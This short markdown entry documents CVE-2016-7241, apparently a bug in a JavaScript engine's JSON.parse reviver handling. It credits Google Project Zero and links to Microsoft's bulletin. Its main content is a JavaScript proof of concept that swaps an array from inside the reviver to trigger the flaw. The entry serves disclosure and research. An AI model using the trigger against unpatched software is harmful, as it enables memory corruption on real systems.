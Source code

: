 # CVE-2016-7241

- Report: Dec 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var once = false;
var a = 1;

function f(){
  if(!once){
    a = new Array(1, 2, 3);
    this[2] = a;
  }
  once = true;
  return {};
}

JSON.parse("[1, 2, [4, 5]]", f);
```

## Reference

- [Microsoft](http://technet.microsoft.com/security/bulletin/MS16-142)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=952)
